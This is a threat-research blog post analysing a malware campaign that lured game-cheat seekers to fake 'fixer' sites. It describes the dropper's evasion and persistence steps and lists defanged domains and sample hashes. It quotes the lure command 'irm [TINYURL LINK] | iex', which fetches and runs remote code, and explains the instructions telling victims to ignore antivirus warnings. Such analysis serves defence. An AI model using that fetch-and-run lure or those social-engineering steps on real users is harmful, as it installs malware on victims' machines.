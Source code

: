 ```yaml
---
title: InfoStealer Turned Ransomware
categories:
 - Research
tags:
 - blog
 - Windows
 - Ransomware
 - research
 - RAT
date: 2025-10-16
description: Just when you thought a TA wouldn’t shift TTPs…
authors: 
- tr4ceang3l
- slavetomints
researchers: 
- slavetomints
- tr4ceang3l
- likerofjazz
- akithecatearedmerc
image:
  path: /assets/img/infostealer-turned-ransomware/odisrotz-github.png
  alt: GitHub profile of the TAs
  post: false
---
```


## Introduction
On the 19th of August 2025, an individual –here-by referred to as “V”– requested help on an unnamed Cybersecurity-oriented Discord server, seeking assistance regarding the recovery of a ransomware-infected system. V had claimed to be searching for a supposed “fixer” for a cheat related to Fortnite’s Retrac. Upon further investigation and triaging of V’s system, we discovered the initial social engineering domain `hxxps[://]retracfix[.]vercel[.]app` and a corresponding YouTube video that directed victims to the aforementioned domain. The domain intends to serve malware under the guise of a “system fixer” and a patch for Project Retrac.

## Initial Evaluations
During the initial investigation of the campaign, researchers at DeTraced identified the campaign as being led by a group of threat actors previously associated with the WebRAT malware. We are currently tracking this group as “Betray.” Upon identifying the potential threat actors, the investigation focused on the initial malware dropper, which was extracted from the domain linked to the infection.

The dropper was heavily obfuscated using various techniques, with a primary reliance on Base64 encoding and GZip compression to conceal its contents from the victim's antivirus software. The dropper’s first action upon execution is to perform hardware checks to detect the presence of common indicators for Virtual Machine (VM) environments. If these checks are successful, the malware will terminate its execution to avoid detection in a researcher’s environment.

If the sandbox evasion is successful and the dropper determines it is running on a legitimate victim’s system, it proceeds to execute a series of system commands via PowerShell. The dropper directs itself to the directory `C:\ProgramData` and checks if the folder `IntelDriver` exists. If the folder is not present, the dropper creates it. Once this directory is in place, the dropper creates a new file called `windows.cmd` and writes its own contents into it.

Next, the dropper reads the Base64-encoded content from any line in the `windows.cmd` file that begins with `::`, and decodes this content. The decoded data is saved to a file named `boot64x.w`. After completing this step, the dropper proceeds to establish persistence on the system by writing a VBScript to a file called `%computername%_windows64x_APZOacoasfjc.vbs`. This script is configured to run the dropper’s payload every minute by creating a Scheduled Task at the path `%AppData%\IntelDriverTask.xml`.

With persistence established, the dropper continues by setting up the main payload. It again reads from `windows.cmd`, specifically extracting data from the section prefixed with `rem`. This data is copied to a file named `netstat.c`. Once `netstat.c` is successfully written, the dropper decodes the Base64-encoded content, decompresses it using Gunzip, and stores the decompressed data into a `byte[]` object. Finally, this decoded content is saved as a valid binary to the file `AarSvcw.dll`.


Now that the main payload has been created, we can take a look at how the malware really operates. For the most part, the payload can be dissected with static analysis. The primary interests of the payload are its use of XOR to encrypt the strings with the single-byte key `0x5A`; using this key, we can decrypt most of the strings in the payload. As a fallback, the payload will recreate the Scheduled Task if, at some point, the file was deleted or moved to ensure persistence, the next stage is to consistently check if a debugger has been attached to the payload to which it will attempt to scramble the memory it’s in and immediately terminate itself to deter dynamic analysis, we can neutralise this check by simply patching the related function calls with `00`s. Once the persistence check has passed, the payload will proceed to extract another set of encrypted data stored within `boot64x.w` and loads it into memory, preparing itself to then inject the secondary payload into `explorer.exe`.

The contents of the secondary payload are currently unknown to us as we continue to investigate the malware and the affiliated campaign’s supply chain.

## Supply-chain Analysis
Betray uses YouTube videos that advertise cheats and "fixer" scripts for video games, aiming to get kids and teens who are looking for cheats for video games. The videos show the user running a script in Windows Command Prompt, and then it cuts to them playing the game with the supposed benefits of the cheat. During the video, the attacker will go over the installation process and will claim that the user's antivirus software will detect it, but it is a false positive. 

![the youtube videos](/assets/img/infostealer-turned-ransomware/videos.png)

This little bit of social engineering will be good enough to work on most users and trick the victim into interacting with the video description and following the website link, which brings them to an application hosted on Vercel. Betray has two different styles of websites. One type will have a download button for users to click on, and others will include a `irm [TINYURL LINK] | iex` command for the users to run on their systems.

![](/assets/img/infostealer-turned-ransomware/download-page.png)
![](/assets/img/infostealer-turned-ransomware/retrac-irm-iex.png)

In both cases, the goal is to get the user to download and run the batch or PowerShell scripts that Betray uses as a dropper for their malware.

Betray also includes directions on their websites for users to follow, which include having users ignore warnings from their antivirus software.

![](/assets/img/infostealer-turned-ransomware/download-instructions.png)

Once the victim follows these steps, the malware is now on the user's system and will execute. But where does the malware come from?

Inspecting the network connections when the file was downloaded revealed that it came from a release from a GitHub repository, so we went and checked it out.

![](/assets/img/infostealer-turned-ransomware/odisrotz-github.png)

This is one of multiple GitHub accounts found throughout this campaign. Inspection of the repositories either turned up an empty repository with 1-2 releases or a repository full of malware. Looking into the releases answered as to where the malware came from.

![](/assets/img/infostealer-turned-ransomware/odisrotz-releases.png)

Betray typically hides their malware in the repository releases, and when a victim clicks on the download button, it would redirect their browser to a link such as `hxxps[://]github[.]com/odisdrotz71/thermia/releases/download/Thermia/ThermiaPredictor[.]exe`. Further inspection of the GitHub account and its other repositories led to the discovery of more malicious websites for different games, including Roblox, a popular game among kids, Stake Mines, a minesweeper casino game, and Rainbow 6 Siege, an FPS shooter game.

Some of those sites looked like this:

![](/assets/img/infostealer-turned-ransomware/valex-vercel-app.png)
![](/assets/img/infostealer-turned-ransomware/valexexecutor-vercel-app.png)
![](/assets/img/infostealer-turned-ransomware/thermiapredictor.png)
![](/assets/img/infostealer-turned-ransomware/r6s-recoil.png)

It is worth noting that none of the other buttons on the websites would work; they would redirect back to the top of the page.

Betray has also leveraged GitHub Gists and `hxxps[://]filedoge[.]com` for distribution and hosting of samples; however, the `filedoge[.]com`web server has been offline since August 2025, and still is at the time of this report.

## Conclusion

After their stint with hiding RATs in video game cheats, the TA expanded into the malware selling scene, attempting to sell a strain known as XWorm on hxxps[://]rce[.]lol, and a batch script obfuscator on hxxps[://]betray[.]cfd. Analysis of bitcoin addresses found to be linked with the TA reveals that they never ended up receiving any payment through cryptocurrency, but they also used PayPal and Roblox gift cards.

Some sites remain active as we work to take them down, but most have been categorized by search engines as unsafe to browse.

## Indicators of Compromise

*For the full list of IOCs and YARA rules, please check out [DeTraced-Security/detection-rules](https://github.com/DeTraced-Security/detection-rules/tree/main/groups/betray)*

### RetracFix Sample:

```
Output DLL: AarSvcw.dll
Intermediates: windows.cmd, boot64x.w, netstat.c (used during reconstruction)

Hash – original BAT: 38aa08661729dd3c2ae3c1fb98f85f6aa4ff5e7385b0db2a65e9e85747848ad8
Hash - boot64x.w (Obfuscated): 5b1ed346d3a84543f527aa89135037d3bf56b9343b38cbeb340811da5d9a5e43 
Hash - AarSvcw.dll (Decoded): 2ce0dc292b81c72271bc9f0961271fac1e4d42b35292ce56b241174bbbeb4b46 
Hash - windows.cmd (Obfuscated): 07be8edabaa28e6d4ce30c5999b22aab53eac89a43fb036cd3cec15b63b7a81c
```

### Affiliated Samples
```
40b461edb9b2a18bc2ed8236789c1672  2fa.bat
7c92b6d50d1ab7ae24ee93d307c376f2  2faBeta.exe
bc1cfd626ef0eedcdcc46036b649c406  a.exe
780c2f5e127d12181b6650cededecd58  built-agbcfdxdfsdf.bat
161d57257ea219a030d2c902e85c5b18  CharmBootstrapper.bat
51b03d9bae4a53dd4e6210254084b806  ExecFix-2.bat
18bd43b2dfad0c247148db1afdf8462e  ExecFix.bat
220d8aa7e914dfbd52b29d25fbf5e9cd  LuckyGrid.exe
c8a8bf528e1ba3ff05ddd9368efd9f82  MinesPredictor.bat
b80538c353bd0a35e28b0b7c958a0689  r6_recoil.exe
0ee7449dd865145498ad23c43fba4754  retrac_fixer_loader.bat
da84fb352ca22ec2c94abd6f8851ea68  thermia.bat
e014911669d783a05005d48e9e6e8c2c  ThermiaPredictor-2.exe
8060fca6ac9ce3ebceba15f66db02443  ThermiaPredictor.exe
cf5005ebdc43ad19863b701025a4279b  ValexUpdater.exe
45bb4c63b0badff7721d2012b6482073  verbal.exe
fe5c839be7074513d2be80356e807fba  wcarrpt.bat
```

> Want to keep up with the DeTraced team? Come join our Discord [here!](https://discord.gg/ahecAvxwhh)
{: .prompt-info }
